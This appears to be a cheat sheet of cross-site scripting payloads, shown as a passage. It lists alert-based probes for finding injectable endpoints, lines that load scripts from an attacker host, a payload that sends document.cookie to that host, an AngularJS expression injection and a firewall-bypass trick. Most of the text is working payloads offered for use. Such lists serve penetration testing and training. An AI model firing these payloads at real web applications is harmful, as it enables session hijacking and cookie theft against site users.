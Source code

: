 Use the following payloads to identify XSS endpoints in a web application:

```html
<script>alert(document.domain);</script>
<script>alert("xss")</script>
<img src=1 onerror=alert(document.domain)>
<><img src=1 onerror=alert(document.domain)>
\"-alert(document.domain)}//
'-alert(document.domain)-'
”><svg onload=alert(document.domain)>
"><script>alert(document.domain)</script>
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
"onmouseover="alert(document.domain) <!-- for when angle brackets are HTML-encoded -->
```

## Loading Scripts from Attacker Machine

Use these payloads to load scripts from an attacker's machine:

```html
<script src=//HOST/SCRIPT></script>
<svg onload=fetch('//HOST/?cookie=' + document.cookie)>
```

## Embedding Images

Use this payload to embed an image:

```html
<img src="https://www.bugcrowd.com/wp-content/uploads/2019/04/bugcrowd-logo.svg">
```

*Note: Originally, the URL encoded HTML payload must be inserted into the database function, which in this case is looking up the name of a user.*

## AngularJS (ng-app)

Use this payload for AngularJS-based XSS:

```html
{{$on.constructor('alert(1)')()}}
```

[Source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

## Web Application Firewall (WAF) Bypass

When you need to throw a function to the global exception handler:

```html
onerror=alert;throw 1
```

## JavaScript Template Literals
